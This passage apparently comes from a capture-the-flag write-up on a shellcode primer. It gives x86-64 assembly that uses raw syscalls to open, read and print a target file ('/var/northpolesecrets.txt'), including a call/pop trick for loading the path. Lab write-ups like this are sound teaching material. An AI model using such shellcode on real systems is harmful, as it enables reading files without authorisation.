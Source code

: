 	mov rsi, 0
	
	; TODO: Set rdx to the third argument (mode - 0 is also fine)
	
	mov rdx, 0
	
	; Perform the syscall
	syscall
	
	; syscall sets rax to the file handle, so to return the file handle we don't
	; need to do anything else!
	ret
	
	

11. Reading a File

For this we need to use what we've learned to open a file, read the file contents, and send that to stdout.

This was helpful: https://blog.skullsecurity.org/2021/bsidessf-ctf-2021-author-writeup-shellcode-primer-runme-runme2-and-runme3

My solution for this was the following:
		
	; Open the file
	call getstring ; We have added this
	db '/var/northpolesecrets.txt',0
	getstring: 
	pop rdi 
	mov rax, 2
	mov rsi, 0
	mov rdx, 0
	syscall
	
	; Read the file
	push rdi
	push rax
	mov rax, 0
	pop rdi
	pop rsi
	mov rdx, 70
	syscall
	
	; Read more of the file
	mov rax, 0
	mov rdx, 70
	syscall
	
	
	; Write the file
	mov rax, 1
	mov rdi, 1
	mov rdx, 70
	syscall
	
	ret
	
	